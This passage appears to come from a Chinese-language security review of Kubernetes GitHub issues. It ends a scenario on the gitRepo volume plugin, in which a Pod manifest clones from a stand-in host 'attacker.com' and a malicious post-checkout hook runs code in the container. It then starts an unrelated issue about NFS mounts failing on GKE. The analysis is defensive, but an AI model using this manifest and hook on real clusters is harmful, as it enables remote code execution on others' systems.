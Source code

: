    并给予执行权限：

   ```bash
   chmod +x .git/hooks/post-checkout
   ```

2. **部署使用`gitrepo`卷的Pod：**

   用户（可能被钓鱼或误导）部署了如下的Pod YAML文件：

   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: vulnerable-pod
   spec:
     containers:
     - name: app-container
       image: alpine
       command: ["/bin/sh", "-c", "sleep 3600"]
       volumeMounts:
       - name: git-volume
         mountPath: /app
     volumes:
     - name: git-volume
       gitRepo:
         repository: "http://attacker.com/malicious-repo.git"
         revision: "master"
   ```

3. **触发漏洞：**

   当Pod创建时，`gitrepo`插件会克隆指定的Git仓库到`/app`目录。由于Git默认会执行仓库中的本地钩子，恶意的`post-checkout`脚本将在克隆后自动执行，导致攻击者的代码在容器内运行。

**总结：**

由于`gitrepo`卷插件可能执行未经验证的代码，且未对Git钩子的执行进行限制，攻击者可以利用该特性执行任意命令。这属于高风险的安全漏洞，建议立即从代码库中移除`gitrepo`插件的实现，以消除潜在的安全隐患。

---

## Issue #126028 Issue: NFS Server Not Mounting on Agent Pod

- Issue 链接：[#126028](https://github.com/kubernetes/kubernetes/issues/126028)

### Issue 内容

@jingxu97  @saad-ali 
#### What happened?


I am using google cloud , on that i have created gke cluster and install the nfs server on to it and created a PV for nfs server
and then created pv and pvc which is using nfs server ip for connection and lastly we are using a clinet-deployment.yaml file which is used to connect with nfs server mount point and use the /data volume
We are experiencing an issue where the NFS server is running correctly, but the client pod defined in client-deployment.yaml is failing to start. Below are the details of each configuration file and the error logs, and i have attached the logs for nfs server
![mount-error](https://github.com/kubernetes/kubernetes/assets/92107358/a3502250-e36e-40cd-8f40-8bcf7a33cb51)
